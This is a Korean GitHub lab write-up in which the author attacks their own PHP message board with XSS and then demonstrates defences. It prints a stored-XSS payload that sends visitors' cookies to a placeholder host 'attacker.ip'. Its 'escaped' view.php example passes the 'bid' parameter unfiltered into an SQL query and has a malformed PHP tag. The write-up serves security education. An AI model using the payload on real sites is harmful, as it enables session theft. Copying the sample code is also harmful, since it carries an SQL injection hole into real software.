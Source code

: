 # XSS 모의해킹
 XSS(Cross-Site Scripting) 공격은 악의적인 스크립트를 삽입하여, 해당 웹 사이트의 사용자들이 스크립트를 실행하도록 유도하는 공격입니다.   
 이번 모의해킹에서는 공격자가 악의적인 스크립트를 삽입하여, 해당 웹 사이트에 접속한 사용자들에게 XSS 공격을 수행하는 방법을 다루었습니다.
 
 ## 게시판
 ![게시판 사진](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_board.png)
 ![게시글 보기 사진](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_view.png)
 해당 웹페이지에서는 게시글을 쓸 수 있으며, 게시글을 클릭하면 게시글을 볼 수 있는 화면이 구현되어있습니다.
 
 ## 공격 실습
 ![xss_test](https://github.com/Tree1st/HK/blob/master/webH/image/xss/XSS_test.png)
 
 현재 웹페이지가 XSS 공격에 취약한지 알아보기 위하여 게시글에 `<script>alert(document.cookie)</script>` 를 입력해 봅니다.
 
 ![xss_test2](https://github.com/Tree1st/HK/blob/master/webH/image/xss/XSS_test2.png)
 
 업로드된 게시글을 클릭하면 다음과같이 현재 사용자의 쿠키가 alert로 뜨는것을 확인 할 수 있습니다. 이는 해당 웹페이지가 XSS 공격에 취약하여 공격이 성공하였음을 알 수 있습니다.
 
 ## Stored XSS
 Stored XSS 공격은 공격자가 웹 사이트에 악성 스크립트를 저장해 놓고, 이를 웹 사이트에 접속한 모든 사용자들이 실행하도록 유도하는 공격입니다.
 
 ![xss_stored](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored.png)
 
 게시글에 다음과같이 입력합니다.`<script>document.location="http://attacker.ip/?"+document.cookie;</script>` 해당 스크립트는 이 글을 접속하는 유저의 쿠키와 함께 공격자의 서버로 redirect 시킵니다.
 
 ![xss_stored2](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored2.png)
 
 게시글에 접속하면 공격자의 웹서버로 redirection 되는것을 확인 할 수 있습니다.
 
 ![xss_stored3](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored3.png)
 
 공격자의 웹서버 로그에서 사용자의 쿠키를 확인 할 수 있습니다.

## 방어 기법
 1. 입력값 검증: 모든 입력값에 대해서 적절한 검증을 통해 유효한 값만을 받아들이고, 악성 스크립트 등을 필터링하여 처리합니다.

 2. HTML 특수 문자 이스케이프: 입력값이 출력되는 곳에서 문자열을 안전한 HTML 형식으로 변환합니다.

## 방어 실습
 ### 쿠키 탈취 방어
 ![php.ini](https://github.com/MLTree2/HK/blob/master/webH/image/xss/httponlyphpini.png)
 
 php.ini 파일의 `session.cookie_httponly = true' 설정을 통하여 쿠키의 속성에 HttpOnly 가 설정된다. HttpOnly 속성이 추가된 쿠키는 자바스크립트등과 같은 언어로 쿠키에 접근하는것을 차단하여 쿠키를 탈취하는것을 불가능하게 합니다.
 
 ![editcookie](https://github.com/MLTree2/HK/blob/master/webH/image/xss/httponly_editcookie.png)
 
 EditThisCookie 툴로 쿠키를 보면 HTTP 전용 란에 체크가 된것을 볼 수 있습니다.
 
 ![httponly_test](https://github.com/MLTree2/HK/blob/master/webH/image/xss/httponly_XSS_test.png)
 
 또한 기존의 XSS_Test 게시글에 접속하여도 쿠키가 뜨지 않는것을 확인할 수 있습니다.
 
 ### HTML 이스케이프
 HTML escaping 이란 HTML에서 사용되는 특수문자를 해당 문자의 HTML 엔티티(entity)로 대체되어 HTML 출력에서 스크립트 실행을 방지하는 것을 말합니다. 대표적으로 다음과같이 치환 됩니다.
 | Escape 전 | Escape 후 |
 |-|-|
 | `&` | `&amp;`|
 | `"` | `&quot;` |
 | `'` |  `&#039;` |
 | `<` | `&lt;` |
 | `>` | `&gt;` |
 
 PHP 에서는 `htmlspecialchars()` 함수를 이용하여 HTML 이스케이핑을 할 수 있습니다. 다음은 해당함수를 이용하여 Escaping 을 적용한 view.php 의 일부 입니다. 
 ```php
<?php
include ("connect.php");

$bid=$_GET["bid"];
$result = $con->query("select * from board where bid=".$bid) or die("query error => ".$mysqli->error);
$rs = $result->fetch_object();
$content = htmlspecialchars($rs->content);
 ... 중략 ...
<p>
 <?php echo $content;>
</p>
...
```
![escape_result](https://github.com/MLTree2/HK/blob/master/webH/image/xss/escape_result.png)

게시글에 XSS를 시도한 HTML 코드가 그대로 적혀있으며 HTML로 확인 시 **`<,  >`** 문자열이 **`&lt; , &gt;`** 로 치환된것을 확인할 수 있습니다.

